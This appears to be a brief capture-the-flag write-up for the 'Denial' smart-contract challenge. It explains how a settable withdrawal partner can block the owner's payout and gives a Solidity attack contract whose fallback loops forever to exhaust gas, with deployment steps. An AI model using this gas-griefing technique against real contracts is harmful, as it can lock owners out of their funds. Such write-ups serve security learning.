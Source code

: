 # Denial 

Preventing the owner from withdrawing.

We have access to a function that allows us to set a `partner` and a call is made to this partner before the owner transfer is made within the withdraw function.
We will create a helper (attack) contract that simply has a fallback with an infinite loop that will eat all the gas and prevent the transfer.

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract DenialAttack {

    fallback() payable external {
        while (true) {

        }
    }
}
```

Step 1:

Depoy this contract

Step2:

Set partner as the new contract address

Step3:

Wait.
